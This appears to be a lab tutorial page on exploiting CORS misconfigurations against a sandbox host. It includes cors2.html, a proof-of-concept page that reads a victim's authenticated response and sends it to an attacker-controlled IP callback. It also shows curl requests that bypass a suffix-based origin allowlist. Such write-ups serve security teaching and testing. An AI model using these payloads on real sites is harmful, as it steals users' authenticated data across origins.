 ```yaml
---
layout:
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
---
```


# CORS

## **Trusting Any Origin**

For exploiting a CORS misconfiguration, we must first check if the [`SameSite`](../common-findings/cookie-flags.md#samesite) cookie flag is set (Figure 1).

<figure><img src="../../.gitbook/assets/offsec_cors_2.png" alt=""><figcaption><p>Figure 1: Checking the <code>SessionCookie</code>'s set flags via the browser.</p></figcaption></figure>

The presence of `Access-Control` headers indicates that the application supports CORS (Figure 2).

<figure><img src="../../.gitbook/assets/offsec_cors_3.png" alt=""><figcaption><p>Figure 2: Inspecting a CORS request and response.</p></figcaption></figure>

If we send the same request unauthenticated (without the `Cookie` header), we get a `401 Unauthorized` response (Figure 3). Remember that a browser won't include credentials on a CORS request without the `Access-Control-Allow-Credentials` header. Furthermore, a wildcard value for the `Access-Control-Allow-Origin` header doesn't allow `Access-Control-Allow-Credentials` to be `true`.

<figure><img src="../../.gitbook/assets/offsec_cors_4.png" alt=""><figcaption><p>Figure 3: Sending a request without credentials.</p></figcaption></figure>

When we add the `Origin` header to the CORS request, the `Access-Control-Allow-Credentials` response header is added (Figure 4).

<figure><img src="../../.gitbook/assets/offsec_cors_5.png" alt=""><figcaption><p>Figure 4: Adding the <code>Origin</code> header.</p></figcaption></figure>

We can try to reach the above endpoint from an external domain (Figure 5). Notice that this is a CORS request (`mode: 'cors'`) including credentials (`credentials: 'include'`).

{% code title="cors1.html" %}
```html
<html>
<head>
<script>
var url = "https://cors-sandbox/code";

function get_code() {
  fetch(url, {
    method: 'GET',
    mode: 'cors',
    credentials: 'include'
  })
  .then(response => response.json())
  .then(data => {
    console.log(data);
  });
}

get_code();
</script>
</head>
<body></body>
</html>
```
{% endcode %}

<figure><img src="../../.gitbook/assets/offsec_cors_6.png" alt=""><figcaption><p>Figure 5: Accessing the page from another domain.</p></figcaption></figure>

Since JavaScript can access the response, we can update our page to send the `code` to an arbitrary domain. The below request creates a CORS page to get the code on behalf of the victim and then sent it to an attacker-control server (Figure 6).

{% code title="cors2.html" overflow="wrap" %}
```html
<html>
<head>
<script>
var url = "https://cors-sandbox/code";

function get_code() {
  fetch(url, {
    method: 'GET',
    mode: 'cors',
    credentials: 'include'
  })
  .then(response => response.json())
  .then(data => {
    fetch('http://192.168.45.214/callback?' +  encodeURIComponent(JSON.stringify(data)), {
      mode: 'no-cors'
    });
  });
}

get_code();
</script>
</head>
<body></body>
</html>
```
{% endcode %}

<figure><img src="../../.gitbook/assets/offsec_cors_7.png" alt=""><figcaption><p>Figure 6: Successfully exfiltrating the <code>code</code> to an arbitrary domain.</p></figcaption></figure>

## **Improper Domain Allowlist**

The `Access-Control-Allow-Origin` header can only set a single domain. When an application needs to support multiple-origin CORS, it must include server-side logic to respond with the appopriate value via inspecting the `Origin` header to a CORS request. Two common appraches are to check if the `Origin` header includes a preset value or ends with a preset value and then reflecting that header value. In the example below, the server responds with an `Access-Control-Allow-Origin` header.

```bash
# preflight request
$ curl -X "OPTIONS" -i -k https://cors-sandbox/allowlist
HTTP/2 200
access-control-allow-credentials: true
access-control-allow-methods: GET
access-control-allow-origin: https://offensive-security.com
content-type: text/html; charset=utf-8
date: Fri, 09 Aug 2024 07:54:20 GMT
server: waitress
content-length: 0
```

Passing a different origin (different protocol and subdomain) via the `Origin` header reflects it back to the response.

{% code overflow="wrap" %}
```bash
# including the Origin header
$ curl -X "OPTIONS" -i -k -H "Origin: http://www.offensive-security.com" https://cors-sandbox/allowlist
HTTP/2 200
access-control-allow-credentials: true
access-control-allow-methods: GET
access-control-allow-origin: http://www.offensive-security.com
content-type: text/html; charset=utf-8
date: Fri, 09 Aug 2024 07:56:43 GMT
server: waitress
content-length: 0
```
{% endcode %}

The server does not reflect the origin passed if we change its TLD[^1], but it responds with the default value. The same behavior happens when another domain is passed.

{% code overflow="wrap" %}
```bash
# modifiying the top level domain
$ curl -X "OPTIONS" -i -k -H "Origin: http://www.offensive-security.net" https://cors-sandbox/allowlist
HTTP/2 200
access-control-allow-credentials: true
access-control-allow-methods: GET
access-control-allow-origin: https://offensive-security.com
content-type: text/html; charset=utf-8
date: Fri, 09 Aug 2024 08:00:57 GMT
server: waitress
content-length: 0

# passing another domain
$ curl -X "OPTIONS" -i -k -H "Origin: http://malicious.com" https://cors-sandbox/allowlist
HTTP/2 200
access-control-allow-credentials: true
access-control-allow-methods: GET
access-control-allow-origin: https://offensive-security.com
content-type: text/html; charset=utf-8
date: Fri, 09 Aug 2024 08:03:35 GMT
server: waitress
content-length: 0
```
{% endcode %}

Based on this information, we can infer that the server is allowing domains that end with `offensive-security.com`, perhaps to allow various subdomains. However, it is not checking for a leading period and this allow us to prepend something to the domain name and bypass CORS.

{% code overflow="wrap" %}
```bash
$ curl -X "OPTIONS" -i -k -H "Origin: http://www.maliciousoffensive-security.com" https://cors-sandbox/allowlist
HTTP/2 200
access-control-allow-credentials: true
access-control-allow-methods: GET
access-control-allow-origin: http://www.maliciousoffensive-security.com
content-type: text/html; charset=utf-8
date: Fri, 09 Aug 2024 08:03:21 GMT
server: waitress
content-length: 0
```
{% endcode %}

[^1]: Top Level Domain
